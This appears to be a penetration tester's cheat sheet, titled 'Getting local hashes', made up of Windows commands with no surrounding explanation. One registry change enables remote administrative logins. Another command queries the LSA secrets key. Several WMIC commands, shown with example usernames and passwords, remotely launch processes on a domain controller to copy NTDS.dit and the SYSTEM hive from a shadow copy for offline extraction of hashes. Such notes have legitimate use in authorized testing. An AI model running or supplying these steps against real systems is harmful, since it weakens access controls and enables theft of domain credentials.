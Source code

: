 # Getting local hashes

## Enable remote admin login

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /V LocalAccountTokenFilterPolicy /T REG_DWORD /F /D 1
```

## Secrets

```
reg query HKLM\Security\Policy\Secrets
```

## WMIC

Note, remove creds to run locally.

```
wmic /node:dc /user:leon /password:password1 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp\ntds.dit 2>&1"

wmic /node:dc /user:domain\leon /password:pentest! process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM\ C:\temp\SYSTEM.hive 2>&1"

wmic process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp\ntds.dit 2>&1"
```
